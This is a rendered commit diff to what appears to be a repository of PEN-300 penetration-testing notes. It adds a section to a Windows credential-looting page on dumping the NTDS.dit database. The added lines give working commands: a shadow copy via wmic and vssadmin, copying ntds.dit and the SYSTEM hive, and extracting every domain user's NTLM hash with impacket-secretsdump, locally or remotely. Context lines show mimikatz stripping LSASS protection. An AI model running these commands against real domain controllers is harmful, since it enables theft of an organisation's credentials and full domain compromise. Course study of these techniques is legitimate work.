

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -122,3 +122,28 @@ C:\Windows\system32> sc start mimidrv
 #From a mimikatz shell
 1. !processprotect /process:lsass.exe /remove  -> Afterwards LSA is disabled, meaning that we can dump the LSASS using the method we best like
 ```
+
+**NTDS:**
+
+The NTDS.dit, is a database that is usually stored on the Domain Controllers. The NTDS.dit contains the NTLM hash for all the domain users, so it is a prime taget for an attacker. However, in order to be able to dump it you need to be Domain Admin or be local admin on the Domain Controller.
+
+1st method(using vssadmin):
+
+```
+1. Create a shadow copy of the c:\ unit -> wmic shadowcopy call create Volume='C:\'     -> to list them -> vssadmin list shadows
+2. Get a copy of the NTDS.dit -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit
+3. Get a copy of the SYSTEM -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system c:\system    -> or -> reg save HKLM\SYSTEM c:\system
+4. Download them to our machine and use: impacket-secretsdump -system system -ntds ntds LOCAL
+```
+
+2nd method(using impacket-secretsdump, it has various execution methods: smbexec(psexec), wmiexec(DCOM) and mmcexec(DCOM), all this execution methods are explained [here](https://github.com/trike33/PEN-300-Code-Snippets/tree/main/Windows%20Lateral%20Movement)):
+
+```
+1. impacket-secretsdump -dc-ip <domain_controller_ip> domain/username:password@target_name
+```
+(note that this last method will be more time consuming that the 1st method)
+
+**DcSync:**
+
+
+**Meterpreter:**
````
